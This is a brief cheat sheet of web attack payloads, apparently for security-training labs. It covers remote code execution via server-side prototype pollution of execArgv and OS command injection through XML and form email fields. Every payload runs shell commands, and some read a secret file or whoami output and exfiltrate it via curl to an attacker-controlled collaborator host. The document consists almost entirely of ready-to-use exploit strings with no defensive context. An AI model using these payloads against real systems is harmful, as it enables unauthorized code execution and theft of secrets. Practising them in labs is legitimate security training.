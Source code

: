 # Code Execution  

>Remote code execution via server-side prototype pollution  

```
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
    ]
}
```  

>XML and OS Command execution  

```
<email>user16@exploit-server.net||$(curl $(cat /home/carlos/secret).COLLABORATOR.com)||</email>
```  

>BASH os command execution  
  
```bash
email=carlos@exam.net||curl+`whoami`.COLLABORATOR.net||
```  

```
||$(curl $(cat /home/carlos/secret).COLLABORATOR.com)||
```  
